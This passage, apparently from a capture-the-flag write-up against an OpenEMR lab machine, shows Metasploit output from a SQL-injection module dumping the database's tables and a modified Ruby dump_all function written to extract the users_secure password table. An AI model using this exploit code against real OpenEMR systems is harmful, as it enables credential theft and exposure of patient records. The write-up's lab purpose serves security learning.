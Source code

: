     msf5 auxiliary(test/openemr_sqli_dump) > run
    [*] Running module against 10.10.10.188

    [*] DB Version: 5.7.30-0ubuntu0.18.04.1
    [*] Enumerating tables, this may take a moment...
    [*] Identified 295 tables.
    [*] Dumping table (1/295): CHARACTER_SETS
    <snip>
    [*] Dumping table (284/295): therapy_groups_counselors
    [*] Dumping table (285/295): therapy_groups_participant_attendance
    [*] Dumping table (286/295): therapy_groups_participants
    [*] Dumping table (287/295): transactions
    [*] Dumping table (288/295): user_settings
    [*] Dumping table (289/295): users
    [*] Dumping table (290/295): users_facility
    [*] Dumping table (291/295): users_secure
    [*] Dumping table (292/295): valueset
    [*] Dumping table (293/295): version
    [*] Dumping table (294/295): voids
    [*] Dumping table (295/295): x12_partners

We quickly look at the table structure on the [openEMR wiki](https://www.open-emr.org/wiki/index.php/Database_Structure)
and dump the table `users` with the index 288 (yes the table index start at 0).

It contains nothing interesting as the users' password where moved into the
`users_secure` table (an attentive reading of the wiki page will had give us
that immediately).

We re-wrote our personal module in order to dump the table `users_secure` with
the index 290. The `dump_all` function now looks like the following:


    :::ruby
      def dump_all
        payload = 'version()'
        db_version = exec_payload_and_parse(payload)
        print_status("DB Version: #{db_version}")
          print_status("version 2")
        print_status('Enumerating tables, this may take a moment...')
        tables = enumerate_tables
        num_tables = tables.length
        print_status("Identified #{num_tables} tables.")

        # These tables are impossible to fetch because they increase each request
        skiptables = %w[form_taskman log log_comment_encrypt]
        tables.each_with_index do |table, i|
          if skiptables.include?(table)
            print_status("Skipping table (#{i + 1}/#{num_tables}): #{table}")
          else
              if i == 290
                print_status("Dumping table (#{i + 1}/#{num_tables}): #{table}")
                table_data = walk_table(table)
                save_csv(table_data, table)
            end
          end
        end
        print_status("Dumped all tables to #{Msf::Config.loot_directory}")
      end
